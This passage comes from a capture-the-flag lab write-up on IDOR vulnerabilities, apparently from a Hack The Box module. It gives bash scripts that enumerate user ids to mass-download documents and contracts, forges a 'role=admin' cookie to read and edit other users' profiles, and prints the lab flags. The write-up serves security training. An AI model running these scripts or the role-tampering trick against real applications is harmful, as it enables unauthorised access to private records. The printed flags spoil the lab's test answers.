
*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### response in browser)

'uid=15' response length is significantly longer than the others. The flag must
be in there – lets show its response in the browser (right click  →  show
response in browser):

The flag is right there for the taking:


Method 2: we will use the following bash script:
#!/bin/bash

url="http://<target-IP>:<target-port>"

for i in {1..20}; do
# Use POST method to retrieve the documents for each uid
response=$(curl -s -X POST -d "uid=$i"
"$url/documents.php")

# Find all .pdf and .txt links in the response
for link in $(echo "$response" | grep -oP
"documents\/.*?\.(pdf|txt)"); do
# Download the file (pdf or txt) from the correct
path
```bash
wget -q "$url/$link"
```
done
done

lets put it in a file called 'mass_check.sh' (I used nano editor for that):


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### , give it the proper permissions, and run

, give it the proper permissions, and run:
touch mass_check.sh
nano mass_check.sh
```bash
chmod u+x mass_check.sh
```
./mass_check.sh

When done running the script, lets check the downloaded files with
ls


That's our flag (along with the rest of the pdf downloads). Lets get it:
```bash
cat flag_11dfa168ac8eb2958e38425728623c98.txt
```


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


### Bypassing Encoded References

> **Lab Question (Page 13)**: Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.
>
> **Flag / Answer**: `HTB{h45h1n6_1d5_w0n7_570p_m3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous section (note – the target IP and port
will be different in the screenshots in this sections than the previous one) –

There is also 'Contracts'.
Selecting it – will get to a page where we can download the contract:

Lets download again, but with interceptor on:

We can see the download request – is a get request with the parameter
'contract' and its value 'MQ%3D%3D', at the right side of the screenshot.


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


### And forward

At the right side of the screenshot – there is a decode of the value, first URL
decode, then base64 decode, to the result value of '1' .
Lets try to change it to the encoded value of '2' , which will be after base64 then
URL encodement – the value will be 'Mg%3D%3D' . lets modify:

And forward:

A new pdf was download.

The next task is to automate the process to download the pdfs from all
employees 1-20. In this section we will skip the intruder method, and continue
with the bash script only.

Lets start by creating a file 'mass_check2.sh':
touch mass_check2.sh

then – putting the following bash script in it (I used nano editor):


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


### Next, give it execution permission, and run it

#!/bin/bash

url="http://<target-IP>:<target-port>"

for i in {1..20}; do
# Base64-encode the value of i and then URL-encode the
result, ensuring no newline is added
contract=$(echo -n "$i" | base64 -w 0 | jq -sRr @uri)

# Use curl to send GET request and handle content-
disposition filename
```bash
curl -s -O -J "$url/download.php?contract=$contract"
```
done


Next, give it execution permission, and run it:
```bash
chmod u+x mass_check2.sh
```
./mass_check2.sh

When done, lets take a look at the results. We know the flag value is at one of
the downloaded pdfs. So whatever is not 0 characters long, that's the file we
are looking for:
wc *.pdf


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*Not all results are shown. *
There is a result with 30 characters. Let's see what's in it:
```bash
cat contract_98f13708210194c475687be6106a3b84.pdf
```


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### IDOR in Insecure APIs

> **Lab Question (Page 17)**: Try to read the details of the user with 'uid=5'. What is their 'uuid' value?
>
> **Flag / Answer**: `eb4fe264c10eb7a528b047aa983a4829`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous 2 sections:

There is also the option of 'Edit Profile' -  lets click it:

We get to this profile details edit page.
Lets try to edit the profile again, this time with burp interceptor on to intercept
the request:


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


### Now lets see the request of the profile update

We can observe that we send the role 'employee' .. interesting.. lets forward:

This is the GET request for the profile data, coming after the POST request from
above. That request also has the 'role=employee' cookie parameter.

Now lets see the request of the profile update:


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


### the burpsuite repeater

We can see the value '1' on uid parameter and URL. Attempting to manually
change them to '5' will not work due to the 'uuid' safeguard.
We also can see it is a PUT method. Lets instead of changing Employee details,
lets try to delete employee number 2- we change the value '5' to '2' in url and
uid, and change PUT to DELETE (all changes are done manually):

'Deleting employees is for admins only' . What it implies, that it has another
role, 'admin' . We will once again go to the 'Edit Profile' GET request, we will set
the URL as 5, and change the role from 'employee' to 'admin' . We will do it in
the burpsuite repeater:

Bypass worked! We have access to employee number 5 details, including its
uuid.


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### Chaining IDOR Vulnerabilities

> **Lab Question (Page 20)**: Try to change the admin's email to 'flag@idor .htb', and you should get the flag on the 'edit profile' page.
>
> **Flag / Answer**: `HTB{1_4m_4n_1d0r_m4573r}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off from the previous section – lets
device a bash script that will automate the process for id values of 1-100:
#!/bin/bash

# Define the IP and port once
host="<target-IP>:<target-port>"

url="http://$host/profile/api.php/profile"
referer="http://$host/profile/index.php"
cookie="role=admin"

for x in {1..100}; do
# Send the GET request
response=$(curl -s --compressed "$url/$x" \
-H "Host: $host" \
-H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64;
x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/123.0.6312.122 Safari/537.36" \
-H "Accept: */*" \
-H "Referer: $referer" \
-H "Accept-Encoding: gzip, deflate, br" \
-H "Accept-Language: en-US,en;q=0.9" \
-H "Cookie: $cookie" \
-H "Connection: close" | tr -d '\0')  # Remove null
bytes

# Check if the response contains the word 'admin'
if echo "$response" | grep -q "admin"; then
```bash
echo "Response for x=$x contains 'admin':"
echo "$response"
```
fi
done

the script will send the GET request to all ids of 1-100, and display the response
which contains the word admin. That response will contain the admin user
profile.


### and execute

We will put that script in a file called 'mass_check3', assign that execution
permissions
```bash
chmod u+x mass_check3.sh
```
and execute:

The admin account belongs to uid=10 profile.
Lets edit his profile with burpsuite:


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


### Here is his profile on the browser

Here is his profile on the browser:

Lets change:

Lets update the profile – we will click the 'Update profile button' →

